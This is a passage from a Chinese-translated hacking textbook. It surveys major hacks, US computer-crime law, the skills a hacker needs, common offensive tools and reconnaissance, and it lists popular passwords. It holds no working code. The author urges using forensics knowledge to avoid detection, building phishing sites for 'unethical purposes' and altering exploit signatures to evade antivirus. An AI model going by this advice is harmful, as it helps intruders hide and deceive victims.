估算显示，涉及其中的人员逃避的总税收超过 2000 亿美元！被此次黑客攻击牵连的人包括上述两位总理，还包括：弗拉基米尔·普京、格鲁吉亚总理、乌克兰总理、西班牙王室、沙特王室、利昂内尔·梅西、老虎伍兹、西蒙·考威尔以及许多其他人。欲了解有关此次黑客攻击的更多信息，请访问 [https://www.hackers-arise.com/post/2018/08/01/confessions-of-a-professional-hacker-how-hackers-obtained-the-secrets-of-of-the-panama-paper](https://www.hackers-arise.com/post/2018/08/01/confessions-of-a-professional-hacker-how-hackers-obtained-the-secrets-of-of-the-panama-paper)

# 2016 年总统选举

2016 年美国大选很可能成为历史上最具影响力的黑客攻击事件之一。

据推测，俄罗斯国家及俄罗斯国家支持的实体（GRU）致力于影响大选，以支持唐纳德·特朗普。这些活动包括在 Facebook 和 Twitter 等社交媒体上发布分裂性和虚假信息，以及入侵特朗普的竞争对手希拉里·克林顿及其竞选经理约翰·波德斯塔的电子邮件。这些邮件随后被转移至维基解密，由朱利安·阿桑德及其维基解密同伙发布。此外，俄罗斯黑客试图入侵部分投票机器的软件，但显然未能成功。欲了解俄罗斯 GRU 如何破坏 2016 年美国大选，请参见 [https://www.hackers-arise.com/post/2018/07/15/confessions-of-a-professional-hacker-how-russian-hackers-compromised-the-2016-us-president](https://www.hackers-arise.com/post/2018/07/15/confessions-of-a-professional-hacker-how-russian-hackers-compromised-the-2016-us-president)

# EternalBlue 2017

在 2016 年末和 2017 年初，一个名为“影子经纪人”（ShadowBrokers）的神秘组织试图在互联网上出售据称是从美国间谍机构 NSA 窃取来的漏洞利用程序。

当他们无法以要价卖出这些漏洞时，便于 2017 年 4 月 14 日将其发布在网上。这些漏洞利用程序是真实的，是从 NSA 窃取的，且能让所有者有效地获得几乎所有运行 Windows 7 及更早版本计算机系统的系统管理员权限。该漏洞利用（黑客攻击）被称为 EternalBlue 和 Eternal Romance。几天内，微软于 2017 年春天发布了名为 MS17-010 的补丁。不幸的是，并非所有人都修补了系统，该漏洞在接下来几个月里导致数百万台计算机遭到入侵，包括 WannaCry、Petya 和 NotPetya 勒索软件（见下文）。


证据似乎表明，影子经纪人是俄罗斯间谍机构及相关实体的行动。

## WannaCry 2017

几乎就在影子经纪人发布 `EternalBlue` 漏洞利用程序的同时，有人利用它构建了名为 `WannaCry` 的勒索软件。勒索软件会加密目标文件并要求支付赎金以解密。第一次攻击始于 2017 年 5 月 12 日星期五，距离 `EternalBlue` 发布后 29 天，并迅速蔓延至全球数十万台计算机系统。

这种勒索软件通过 `SMB` 服务器消息块协议，端口 `445` 进入计算机系统。

有关 `SMB` 的更多信息，请参见 `www.hackers-arise.com/network- fundamentals`。它利用 `EternalBlue` 进入系统，然后加密计算机系统中的所有关键文件，包括 Microsoft Office 文档 `doc`、`xls`、`ppt` 以及图形文件和数据库文件。攻击者要求通过加密货币 `比特币` 支付解密密钥的赎金。这次勒索软件造成的损害估计高达数十亿美元。许多人认为，这种勒索软件是朝鲜国家支持的黑客所为，可能用于资助这个经济孤立国家的国家预算需求。

## NotPetya 勒索软件 2017

该勒索软件最初出现在乌克兰，通常归因于俄罗斯的 `Sandworm` 黑客小组，几天内便蔓延至世界各地，使全球各地的企业陷入瘫痪。

这种勒索软件造成了超过 100 亿美元的损失，因为企业没有数据文件就无法运作，其中最著名的是全球航运巨头马士基 `Maersk`。`NotPetya` 也利用了 NSA 的 `EternalBlue` 来攻击系统，然后为加密文件提供访问权限。这或许是迄今为止最具破坏性的勒索软件攻击。

## 2018 年喜达屋酒店集团事件

2018 年 11 月，美国酒店集团万豪透露，其子公司喜达屋酒店集团的预订系统遭到入侵。近 5 亿条，是的，是十亿，意味着该星球人口的 7% 他们的客户记录被盗。显然，黑客在他们系统中潜伏了四年多时间后才被发现。人们怀疑这是一次国家支持的攻击，相关国家仅仅是在为西方潜在目标收集数据。

我希望这段简短的黑客历史能让你清楚地认识到，在过去 40 年左右的时间里，其重要性和意义。随着我们生活中越来越多的部分数字化，黑客行为和 `IT` 安全将变得更加重要，使其成为 21 世纪最有价值和关键的技能。

## 法律相关事项

在我们开始训练成为黑客大师之前，让我们先看看法律。我的读者中有太多人问我“在黑客/渗透测试中，什么是合法的，什么是非法的”，所以我决定在这本书中直接解决这个问题。在我们的领域，我们可能*想要*忽略法律后果，直到它们狠狠地拍在我们脑门上，但这并不是一个明智的策略。它很可能缩短你的黑客职业生涯。

### 网络犯罪的执法

在美国，大多数黑客行为是由联邦执法部门调查和起诉的。

令人惊讶的是，特勤局是牵头机构，但他们主要参与协调响应，通常不直接参与调查。他们将调查委托给众多联邦机构之一，但 `FBI` 的网络犯罪专案组是最常参与的机构。

每个地区都有网络犯罪专案组。它们通常被指派处理较小的本地案件，因为当地 `FBI` 特别探员在黑客技术和取证方面的培训和背景有限。他们经常依赖传统的侦探工作来解决这些案件。我没法说多少次黑客是因为吹嘘他们的战绩而被跟踪下来的。你不需要是技术天才也能追踪下一个突然手头宽裕的吹牛黑客。

虽然联邦法律规定造成超过 5,000 美元的损害属于重罪，但一般规则是，如果损害金额低于 100,000 美元，`FBI` 甚至不会介入。请注意，这里的关键词是“损害”。这与黑客拿走了多少钱无关，而是对个人或企业造成了多少损害。例如，亚马逊每年的收入为 2,300 亿美元，每天 6.3 亿美元，每小时 2,600 万美元。如果黑客对亚马逊发起一小时的拒绝服务 `DoS` 攻击，损失将是 2,600 万美元加上缓解成本、法律成本和声誉损失。被抓住并定罪后，祝你好运去赔偿！


- 故意未经授权访问计算机或超越授权访问权限，并由此获得——
    - `A` 金融机构金融记录中包含的信息，或第 15 章第 1602(n) 节定义的卡发行方中包含的信息，或消费者报告机构文件中关于消费者的信息，这些术语的定义见《公平信用报告法》 `15 U.S.C. 1681 et seq.`；
    - `B` 美国任何部门或机构的信息；或
    - `C` 任何受保护计算机的信息；

美国的联邦机构使用两部主要的联邦法规来起诉案件；**美国法典第 18 编第 1029 和 1030 节**。这两部法规如此宽泛和模糊，以至于许多本意并非黑客行为的事物很可能被判定为非法。

美国法典第 18 编第 1029 节，即**访问设备**法规，旨在将持有或使用伪造访问设备、用于未经授权访问金钱、商品或服务的未授权访问设备定为犯罪。当这部法规制定时，它主要旨在将苹果公司的史蒂夫·乔布斯和史蒂夫·沃兹尼亚克等知名人物使用的电话“魔音者” `phreakers` 所使用的设备定为犯罪。当时，电话魔音者使用这些设备获得免费的长途通信服务。

这两部法规中的第二部，**美国法典第 18 编第 1030 节**，在美国最常用于起诉黑客行为。既然如此，让我们仔细看看它。我在下面重印了定义何种行为非法的关键章节。我知道这里有很多法律术语，但让我们试着保持专注，仔细审查关键部分。

### 美国法典第 18 编第 1030 节

请注意，我上面高亮的章节旨在引起你的注意，除了其他内容外，它还禁止访问“任何受保护计算机的信息”。由于法院裁定“受保护计算机”可以是只有密码这样简单保护措施的计算机，这意味着本质上**每一台**计算机都涵盖在此章节中。


- 故意未经授权访问美国任何部门或机构的非公开计算机，访问该部门或机构的此类计算机，且该计算机专供美国政府使用；或者，在计算机不专用于此类用途的情况下，由或为美国政府使用，且此类行为影响了该由或为美国政府的使用；
- 明知且意图欺诈，未经授权访问受保护计算机，或超越授权访问权限，并由此行为推进预期的欺诈并获取任何有价值的事物，除非欺诈的对象和获取的事物仅包括计算机的使用，且该使用的价值在任何 1 年内不超过 5,000 美元；
- `5(A)` 明知传输程序、信息、代码或命令，并因此故意未经授权对受保护计算机造成损害；
- `B` 故意未经授权访问受保护计算机，并因此行为鲁莽地造成损害；或
- `C` 故意未经授权访问受保护计算机，并因此行为造成损害和损失。

### 美国法典第 18 编第 1030 节

这一部分也很关键。它定义了计算机可能遭受损害的方式，例如“传输程序、信息、代码或命令”或“未经授权访问受保护计算机”，进而“造成损害或损失”。

正如你所见，这里的措辞非常模糊，甚至**漏洞扫描**也可能被解释为犯罪，如果起诉人和“受害者”能证明存在损害或损失。想象这样一个场景：你正在对一个设计糟糕的网站进行漏洞扫描，结果导致网站崩溃。你可能已经犯了一项联邦重罪！

所以，这是关键法律。我省略了关于处罚的部分，但你可以想象那并不是什么愉快的阅读。

## DMCA

《数字千年版权法》或 `DMCA` 于 1998 年由美国国会通过，旨在保护知识产权 `IP` 免受盗版。该法律特别保护版权材料免受未经授权访问。`DMCA` 对使用、制造和流通规避控制版权材料访问的技术措施的设备设有民事和刑事处罚。简而言之，访问任何版权材料，如书籍、音乐和电影，都是刑事行为。正如我们上面在黑客历史中看到的，`Elcomsoft` 因创建可能用于破解 `DMCA` 保护材料的密码破解软件而根据此法被起诉。那次起诉绝对是起诉过度权力的良好例子，幸运的是 `Elcomsoft` 被判定无罪。

## 2002 年网络安全增强法案

2002 年，美国国会决定将网络安全法规扩展到一些此前未涵盖的领域。这是在 9 月世界贸易中心塔楼袭击事件之后发生的

# 在外要当心！

我给你们的信息很简单：“在外要当心！”即使你没有恶意，即将获得的知识也可能被误解为不良意图。如果你在扫描某个网站时导致该网站崩溃，没有人会询问你的意图，他们就会直接把你扔进监狱。

对于像我这样在法律两边都“摸爬滚打”过的人来说，我可以 firsthand 告诉你，一旦有人发现你拥有 `Kali` 或任何黑客工具，并且知道如何使用它们，你突然就变成了“有罪推定”，直到证明你无罪。


# 黑客大师的必备技能与工具

**一切事情都是一步一步发生的。**

Hima Das

**黑客大师是技术最高超的信息技术 `IT` 从业者。**

如果你是网络工程师或数据库管理员，你知道如何分别管理网络和数据库。你不需要编写代码或理解其他操作系统等。你只需要理解 `IT` 领域的你的那个“隔间”，为此，你有手册和课程。

另一方面，黑客大师必须精通许多，甚至所有 `IT` 学科，才能打破系统。通常，没有手册，只有黑客对系统工作原理的基本面的理解。


如果你不具备下面列出的所有技能，不要气馁，而是将这个列表作为你近期需要学习和掌握的内容的起点。

这是我概述进入这个精英 IT 职业万神殿所需技能的说明。我将技能分为三个类别，帮助你更容易地从一级提升到另一级：基础技能、中级技能和无形技能。

## 基础技能

这些是每一个黑客在尝试黑客攻击之前都应该知道的基本知识。一旦你很好地掌握了本部分的所有内容，你就可以进入中级水平。

### 1. 基本计算机技能

不用说，要成为一名黑客，你需要一些基本的计算机技能。这些技能超出了创建 Word 文档、观看 YouTube 视频或浏览互联网的能力。

你需要能够使用 Windows 命令行，编辑注册表，并设置你的网络参数。

许多这些技能可以在基本的计算机课程中获得，例如 `CompTIA A+`。

### 2. 网络技能

你需要理解网络的基础知识，例如：

- `DHCP`
- `NAT`
- 子网划分
- `IPv4`
- `IPv6`
- 公共 IP 与私有 IP
- `DNS`
- 路由器和交换机
- `VLANs`
- `OSI` 模型
- `MAC` 寻址
- `ARP`

因为我们经常利用这些技术，你越理解它们如何工作，你就越成功。寻找我即将在 2021 年出版的书籍 *“Network Basics for Hackers”*（《黑客的网络基础》）以获得关于此主题的更深入内容。在此期间，你可以在 [www.hackers-arise.com/networks-basics](http://www.hackers-arise.com/networks-basics) 上学习网络基础知识。

### 3. Linux 技能

培养 Linux 技能对于成为黑客至关重要。我们作为黑客使用的几乎所有工具都是为 Linux 开发的，并且 Linux 赋予了我们在使用 Windows 或 MacOS 时没有的能力。

如果你需要提高你的 Linux 技能，或者你刚开始接触 Linux，请查看我的新 Linux [初学者系列](https://www.hackers-arise.com/linux-fundamentals) 或我的 *“Linux Basics for Hackers”（《黑客的 Linux 基础》）*（[Amazon 链接](https://amzn.to/2JAsYUI)），由 No Starch Press 出版。

### 4. Wireshark 或 Tcpdump

`Wireshark` 是最广泛使用的嗅探器/协议分析器，而 `tcpdump` 是命令行嗅探器/协议分析器。两者在分析网络流量和攻击方面都非常有用。

### 5. 虚拟化

你需要熟练使用其中一个虚拟化软件包，例如 `VirtualBox` 或 `VMWare Workstation`。虚拟环境为你提供了一个安全的地方，让你可以在进入现实世界之前练习你的黑客技术。最终，你将需要一个虚拟环境来分析实时恶意软件或利用虚拟化系统。

### 6. 安全概念与技术

一个好的黑客理解安全概念和技术。克服由安全管理员建立障碍的唯一方法是熟悉它们。黑客必须理解 `PKI`（公钥基础设施）、`SSL`（安全套接字层）、`IDS`（入侵检测系统）、防火墙等事物。

初学者黑客可以在基本的安全课程中获得许多这些技能，例如 `CompTIA` 的 `Security+` 或通过我即将推出的信息安全概念系列。

### 7. Wi-Fi 技术

为了能够黑客攻击 Wi-Fi（`802.11`），你首先必须理解它是如何工作的——例如加密算法（`WEP`、`WPA`、`WPA2`）、四次握手和 `WPS` 等概念。此外，还要理解连接、认证的协议以及对无线技术的法律限制等事物。

要开始，请查看我在 [www.hackers-arise.com](https://www.hackers-arise.com) 上的无线黑客策略教程，然后阅读我的 Wi-Fi 黑客指南合集，以获取有关每种加密算法的进一步信息以及每种黑客攻击如何工作的示例。本书第 15 章专门讲述 Wi-Fi 黑客攻击。我即将出版的书籍 *Network Basics for Hackers*（《黑客的网络基础》）将有专门一节关于 Wi-Fi（`802.11`）技术。

## 中级技能

这里是事情变得有趣的地方，也是你真正开始感受到你作为黑客能力的地方。知道所有这些将允许你升级到更直观的黑客攻击，由你掌控所有局面——而不是其他黑客。

### 8. 脚本编程

如果没有脚本技能，你将只能使用其他黑客的工具。这限制了你的有效性。

每天都有新工具出现，随着安全管理员想出防御措施，其有效性会下降。

为了开发你自己的独特工具，你需要精通至少一种脚本语言，包括 `BASH` shell，以及 `Perl`、`Python` 或 `Ruby` 中的至少一种。你可以在 [www.hackers-arise.com/scripting](www.hackers-arise.com/scripting) 或本书第 16 章“恶意 Python”中找到这些语言的教程。

### 9. 数据库技能

如果你想要熟练地黑客攻击数据库，你需要理解它们及其工作原理。这包括 `SQL` 语言。我还建议精通主要数据库管理系统（DBMS）之一，例如 `SQL Server`、`Oracle` 或 `MySQL`。我在 [https://www.hackers-arise.com/database-hacking](https://www.hackers-arise.com/database-hacking.) 有一系列专门关于 SQL 注入（SQLi）的教程。

### 10. Web 应用程序

Web 应用程序可能是近年来黑客最肥沃的土壤。你越理解 Web 应用程序如何工作及其背后的数据库，你作为黑客就越成功。此外，你很可能会需要构建自己的网站用于钓鱼和其他不道德目的。查看我在 [www.hackers-arise.com/web-app-hacking](https://www.hackers-arise.com/web-app-hacking) 上的 Web 应用黑客系列。

### 11. 取证

要成为一名好黑客，你千万不要被抓到！你不能成为职业黑客，而在监狱里坐五年（参见第 1 章中关于法律事务的部分）。你越了解数字取证，你就越能避免和逃避检测。在第 14 章中，我们探讨了掩盖踪迹的方法。此外，查看我在 [www.hackers-arise.com/network-forensics-1](https://www.hackers-arise.com/network-forensics-1) 上的数字取证和网络取证系列。

### 12. 高级 TCP/IP

初学者黑客必须理解 `TCP/IP` 基础知识，但要上升到中级水平，你必须理解 `TCP/IP` 协议栈和字段的细节。这包括 TCP 和 IP 数据包中每个字段（标志、窗口、df、tos、seq、ack 等）如何被操纵并用于对受害者系统发动中间人（`MitM`）攻击等其他手段。




TCP/IP 报头

### 13. 密码学

虽然成为一名优秀的黑客不一定需要具备密码学家那样的造诣，但你越了解每种 `密码算法` 的优势和劣势，成功攻陷它的几率就越高。此外，黑客还可以利用密码学来隐藏其活动并规避检测。关于密码学的基础知识和概念，请参阅附录 A“黑客的密码学基础”。

### 14. 逆向工程

逆向工程使你可以打开一个恶意软件样本，并以增加功能和特性的方式对其进行重构。就像在软件工程领域一样，没有谁是从零开始构建新应用程序的。几乎每一个新的漏洞利用程序或恶意软件都使用了其他现有恶意软件的组件。

此外，逆向工程还允许黑客获取现有的漏洞利用程序并修改其签名，从而能够绕过入侵检测系统（`IDS`）和反病毒（`AV`）软件的检测。

### 无形技能

除了所有这些计算机技能外，成功的黑客还必须具备一些无形技能。其中包括以下几点。

#### 15. 创造性思维

总能找到入侵系统的方法，而且实现方式也多种多样。优秀的黑客能够创造性地思考针对同一入侵目标的多种方法。

#### 16. 解决问题能力

黑客总是面临看似无解的问题，这就要求顶级黑客习惯于进行批判性思维并解决问题。这通常要求黑客准确诊断出错的原因，然后将问题分解为各个独立组件。这是那些通常只有通过长时间练习才能获得的技能之一。

#### 17. 坚持不懈

黑客必须坚持不懈。如果你一开始失败了，就再试一次。如果还是失败了，就想出一种新方法再试一次。只有通过坚持不懈，你才能入侵最安全的系统。

我希望这能为你提供一些指导，告诉你如果想提升到中级黑客水平，需要学习和掌握哪些内容。

### 必备工具

当学生刚开始走上成为大师级黑客的道路时，他们往往会被大量可用的工具淹没。这可能会导致挫折感和停滞不前，或者更糟的是，由于工具数量似乎超出了你能驾驭和掌握的范围。

因此，我整理了这份黑客需要掌握的必备工具清单。这并不意味着其他工具没有价值，也不意味着你应该忽视它们，而是建议你先专注于这些工具，以建立你的黑客/信息安全技能。

**大师级黑客的必备工具**


尽管信息安全领域和黑客工具成千上万，以下是我认为对于有抱负的大师级黑客来说最重要的工具列表。这并不是一份详尽的清单——我可以列出数百种优秀的工具——而仅列出了我认为不可或缺的工具。当然，根据任务的不同，请选择适当的工具。

无论顺序如何，我的选择如下：

- `Nmap`

  这是端口扫描及更多用途的必备工具。作为最早开发的端口扫描器之一，`Nmap`在二十多年后依然表现出色。其主要目的是探测目标系统的开放端口和服务，但近年来，Fyodor 和 nmap 社区增加了额外功能，包括扩展该工具许多新方向的 nmap 脚本。关于 `nmap` 的基础知识，请参阅本书第 5 章。

- `Wireshark`

  `Wireshark`是那些令人惊叹的工具之一，IT 行业的几乎每个人都应该熟悉它。`Wireshark`是一个嗅探器，它使我们能够检查每个数据包，从而分析我们网络中的问题或入侵者试图做什么。`Wireshark`允许你交互式地浏览数据，开发显示过滤器，并查看重建的 TCP 会话流。它可以解释数百种不同的协议及其结构。不幸的是，近年来 `Wireshark`自身也出现了一些安全漏洞问题。关于 `Wireshark`的更多信息，请参阅本书第 10 章或 [https://www.hackers-arise.com/post/2018/09/24/network-forensics-wireshark-basics-part-1](https://www.hackers-arise.com/post/2018/09/24/network-forensics-wireshark-basics-part-1)

- `Metasploit`

  `Metasploit`是世界上最受欢迎的漏洞利用框架。它将进行渗透测试所需的大部分功能打包在一个软件包中——从扫描、漏洞利用到后渗透阶段。`Metasploit`框架可以通过载荷、辅助、漏洞利用、编码器、后渗透和空操作（NOP）生成器的模块进行扩展。`Metasploit`是免费的，但也有带有额外功能和费用的商业版本。`Metasploit` 5 于 2018 年底刚刚发布（请留意我 2020 年的*“黑客的 Metasploit 基础”*），并具有多个新功能，包括新的规避模块。关于 `Metasploit`的信息，请参阅本书第 9 章或 [https://www.hackers-arise.com/metasploit-1](https://www.hackers-arise.com/metasploit-1)

- `BurpSuite`

  `BurpSuite`是一个用于攻击 Web 应用的优秀工具，集成了众多工具。有一个功能有限的免费版本，专业版每年 399 美元，可从 [www.portswigger.com](https://www.portswigger.com) 获取。关于 `BurpSuite`的更多信息，请访问 [https://www.hackers-arise.com/post/2018/06/21/online-password-cracking-with-thc-hydra-and-burpsuite](https://www.hackers-arise.com/post/2018/06/21/online-password-cracking-with-thc-hydra-and-burpsuite)

- `Aircrack-ng`

  `Aircrack-ng`工具套件是首屈一指的无线技术分析和破解工具。市场上许多其他 Wi-Fi 工具只不过是允许使用 `Aircrack-ng`的脚本和图形界面。它是一套用于监控、转储、破解甚至创建邪恶双生（Evil Twin）等功能的工具。关于 `aircrack-ng`的信息，请参阅本书第 15 章或 [https://www.hackers-arise.com/wireless-hacks](https://www.hackers-arise.com/wireless-hacks)

- `Sysinternals`

  `Sysinternals`最初由 Mark Russinovich 开发，后来当软件公司于 2006 年收购 Russinovich 的公司时，它成为了微软的一部分。`Sysinternals`是分析微软操作系统内部实际发生的事情的最佳工具之一。它们旨在管理、诊断、排除故障并监控 Windows 操作系统。这些工具中最有用的包括 `Process Explorer` 和 `Process Monitor`。关于 `Sysinternals`的信息，请参阅 [https://www.hackers-arise.com/post/2016/11/29/digital-forensics-part-7-live-analysis-with-sysinternals](https://www.hackers-arise.com/post/2016/11/29/digital-forensics-part-7-live-analysis-with-sysinternals)。

- `Snort`

  `Snort`是世界上最广泛使用的网络入侵检测系统（NIDS）。它最初由 Marty Roesch 作为一个开源项目发起，后卖给 Sourcefire，并于 2013 年被网络设备巨头思科（Cisco）收购。如今它已内置于许多思科网络和防火墙产品中。由于 `Snort`仍然是一个社区开源项目，它也被用于许多其他 IDS 产品中。关于 `Snort`的更多信息，请参阅 *Linux Basics for Hackers* 和 [https://www.hackers-arise.com/snort](https://www.hackers-arise.com/snort)。

- `sqlmap`

  `sqlmap`可能是自动执行针对 Web 表单的 SQL 注入（SQLi）攻击的最佳工具。它 capable 进行数据库指纹识别，将数据从数据库转储到 CSV 文件，甚至可以访问 Web 服务器的底层操作系统。关于 `sqlmap`的信息，请参阅第 13 章或 [https://www.hackers-arise.com/database-hacking](https://www.hackers-arise.com/database-hacking)。

- `Ettercap`

  `Ettercap`是一种用于在局域网（LAN）上执行中间人（MiTM）攻击的工具。其用户友好的图形界面使该过程相对简单，并使攻击者能够修改消息和数据包。关于 `Ettercap`的信息，请参阅 [https://www.hackers-arise.com/post/2017/08/28/mitm-attack-with-ettercap](https://www.hackers-arise.com/post/2017/08/28/mitm-attack-with-ettercap)

- `OWASP-ZAP`

  `OWASP-ZAP`是来自久负盛名的 OWASP 项目团队成员的一款免费且开源的 Web 应用程序漏洞扫描工具。它使用 Java 编写（因此不依赖平台），具有优秀的易用性图形界面，即使是新手也可以在几分钟内掌握它。它非常适合扫描 Web 应用程序以查找已知漏洞。关于 `OWASP-ZAP`的更多信息，请访问本书第 7 章。

- `John the Ripper`

  `John the Ripper`是基于 Linux 的密码破解工具的先驱。它轻量且快速，可以自动检测哈希类型，然后首先开始字典攻击，如果字典攻击失败，则接着进行暴力破解攻击。该命令行工具在美观的用户界面方面略显不足

接口，但在易用性和有效性方面表现平平。关于 `John the Ripper`的更多信息，请参阅本书第 8 章。

## hashcat

`hashcat`是另一款基于 Linux 的密码破解工具。虽然它不像 `John the Ripper`那样易于使用，但许多人认为它是世界上最快的开源密码破解器之一。其众多功能包括使用图形处理器单元（GPU）进行更快的密码哈希破解（`hashcat 3.0`）。关于 `hashcat`的更多信息，请访问 [https://www.hackers-arise.com/post/2016/05/26/cracking-passwords-with-hashcat](https://www.hackers-arise.com/post/2016/05/26/cracking-passwords-with-hashcat)

### BeEF


BeEF 是浏览器漏洞利用框架项目（Browser Exploitation Framework Project）。该工具使攻击者能够利用目标的浏览器，然后在其浏览器内执行多种恶意活动。关于 BeEF 的更多信息，请参阅[本书第 17 章](https://www.hackers-arise.com/post/2017/05/22/browser-exploitation-framework-beef-part-1)或[https://www.hackers-arise.com/post/2017/05/22/browser-exploitation-framework-beef-part-1](https://www.hackers-arise.com/post/2017/05/22/browser-exploitation-framework-beef-part-1)

### THC-Hydra

THC-Hydra 是领先的远程密码破解工具之一。它支持对多种协议进行字典攻击，最著名的包括 HTTP、HTTPS、SMB 和 FTP 协议。关于 THC-Hydra 的更多信息，请参阅[https://www.hackers-arise.com/post/2018/06/21/online-password-cracking-with-thc-hydra-and-burpsuite](https://www.hackers-arise.com/post/2018/06/21/online-password-cracking-with-thc-hydra-and-burpsuite)

### Nessus

Nessus 是最流行的漏洞扫描器。最初是作为一个开源项目开发的，现在由 Tenable 公司所有。Nessus 利用大量已知漏洞数据库，然后探测目标系统中是否存在这些漏洞的证据。

虽然商业版本的价格超过 2,000 美元，但你仍然可以在其网站上免费找到“Essentials”版本。此版本允许你免费扫描多达 16 个 IP 地址。关于 Nessus 的更多信息，请参阅本书第 7 章。

### Shodan

Shodan 是世界上最危险的搜索引擎。它扫描互联网，不是为了搜索关键词，而是为了获取 Web 横幅。它几乎从每个 IP 地址获取横幅，然后索引这些横幅信息以供搜索。这是一个必不可少工具，用于查找具有有用特征的网站，例如特定的 Web 服务器、漏洞、操作系统、物联网设备类型或协议。关于 Shodan 的更多信息，请参阅本书第 5 章或 https://www.hackers-arise.com/shodan

### OllyDbg

OllyDbg 是一个针对 Microsoft Windows 的 32 位（x86）调试器。它分析并解密没有源代码的软件。OllyDbg 可以免费下载和使用。

OllyDbg 常用于软件逆向工程，也被程序员用来确保其程序按预期工作，以及用于恶意软件的逆向工程。关于如何使用 OllyDbg 的信息，请参阅 https://www.hackers-arise.com/post/2017/10/03/reverse-engineering-malware-part-5-ollydbg-basics

# 总结

用于黑客攻击和网络安全的优秀工具有成千上万种。仅 Kali Linux 中就就有数百种黑客工具。黑客工具如此之多，对于新手的黑客来说可能会感到不知所措。我专业的建议是，从这些基本工具开始；熟练掌握它们，然后再使用你手头许多其他强大的工具。这样，你就能为成为一名大师级黑客打下坚实的基础。


## 黑客过程

黑客攻击是一个过程，而不是一种技术或工具。

精通 OTW

实际上，黑客攻击与电影和电视剧中描绘的黑客攻击几乎没有相似之处。

为了对普通观众和那些技术能力有限的观众保持吸引力，这些节目通常将黑客描绘为在电脑屏幕上显示旋转的几何图形和动画的人。然后，在几秒钟内，黑客就获得了电脑所有资源的访问权限。

在现实生活中，黑客攻击可能是一个漫长、繁琐的过程，有时可能需要几天、几周甚至几个月的时间。

在黑客历史的案例中（例如 Carbanak 黑客攻击），攻击者耐心地工作六个月到十二个月，才破坏了银行或国家安全系统等极具价值的系统。成功的黑客将大量时间花在侦察系统、网络和用户上。

曾经有一段时间，黑客可以使用单个漏洞利用程序进入几乎任何 Windows 系统（Conficker 蠕虫，MS08-067），在现代时代偶尔也会出现类似的漏洞利用程序（例如 EternalBlue；我们将在本书中通过 EternalBlue 漏洞利用程序进行工作）。随着系统变得越来越安全，漏洞利用程序也必须变得越专业。例如，要成功利用系统，你可能需要了解以下内容：

- 操作系统；
- 操作系统的服务包；
- 目标系统上打开了哪些端口；
- 目标系统上运行哪些服务；
- 目标系统上运行哪些应用程序；以及
- 目标系统使用什么语言。

有时，甚至需要更多的信息。这种具体性就是侦察如此关键的原因。你甚至需要在开始游戏之前确定所有这些信息的。在某些情况下，侦察可能占据整个操作时间的 90%。

侦察并不像在目标系统上弹出 Shell 那么性感，但在这个时代它至关重要。

如果你的侦察不充分，你的所有努力很可能都会付诸东流。

虽然黑客攻击不是烹饪书式的活动（伟大的黑客具有创造力和分析能力。请参阅第 2 章中的黑客基础知识），但我们可以概括地说，在你的黑客过程中应该采取以下步骤。

### 指纹识别

指纹识别是枚举目标的以下属性的过程：

1. 用户
2. 主机
3. 网络拓扑
4. 操作系统
5. 服务

黑客可以通过多种方式收集所有这些信息。通常，我们的学科将这些分类为主动或被动。让我们在下文中逐一查看这些类别。

# 被动侦察

被动侦察是在不直接与目标交互的情况下了解目标的过程。

换句话说，你可以从第三方来源（如 DNS、Shodan、Netcraft、Google、社交网站等）收集关于目标的信息。被动侦察的关键是在不与目标交互并让目标察觉到你兴趣的情况下，收集尽可能多的关于目标的信息。所有信息都来自之前收集了这些信息的来源。我们所做的只是收割这些信息。在某些圈子里，这些技术被称为开源情报或 OSINT（关于 OSINT 的更多信息，请参阅 www.hackers-arise.com/osint）。在某些情况下，找到关于目标的关键信息对于有效和高效的密码破解至关重要（请参阅第 8 章）。

### 主动侦察

主动侦察，正如你可能已经猜到的那样，是在与目标积极交互时收集的信息。主动侦察是有风险的，但通常能为攻击者提供更可靠和准确的信息。很多时候，这是通过端口扫描（使用如 nmap、hping3 等工具）或横幅抓取来实现的（请参阅第 6 章）。在主动侦察阶段，可以收集到更多具体的信息，但它有被目标检测到的风险，因为每个数据包和探针都带有发送者的签名。侦察的这一阶段也有触发安全设备（如防火墙和入侵检测系统（IDS））的风险。

## 密码破解

密码破解是一个专业领域——当成功时——可以为从业者带来丰厚的回报。在 2019 年，大多数系统仍然由单个密码保护，而不是会使它们安全得多的双因素身份验证（2FA）。如果你能破解密码，你将获得用户的所有权限和权利。

随着安全变得越来越重要，密码变得越来越难破解。来自字典或其他常见字母数字组合（qwerty、12345678 等）的密码可以在几秒钟内被破解。另一方面，一个包含大写字母、小写字母、数字和特殊字符的十字符密码将需要暴力攻击来尝试 56,000,000,000,000,000,000 种可能性！取决于黑客使用的工具，这样的暴力攻击可能需要非常、非常长的时间。尽管如此——根据从暗网获取的密码转储——我们知道最喜爱的密码是：

- 123456
- password
- 123456789
- 12345678
- 12345
- 111111
- 1234567
- sunshine
- qwerty
10. iloveyou
11. princess
12. admin
13. welcome
14. 666666
15. abc123
16. football
17. 123123
18. monkey
19. 654321
20. !@#$%^&*
21. charlie
22. aa123456
23. donald
24. password1
25. qwerty123

如果网络中的某人正在使用这些常见密码之一，或者其他 5,000 个最常见密码之一，攻击者可以在几秒钟内破解它！

密码破解至少有两种类型：在线破解和离线破解。一旦获取了密码哈希值（大多数密码都是以称为哈希的单向加密形式存储的。详见附录 A，“黑客的密码学基础”），离线破解就简单多了，黑客可以利用手头的所有资源来破解它。在线破解要困难得多，因为许多系统具有锁定机制，这会限制我们的尝试次数。

## 利用（Exploitation）


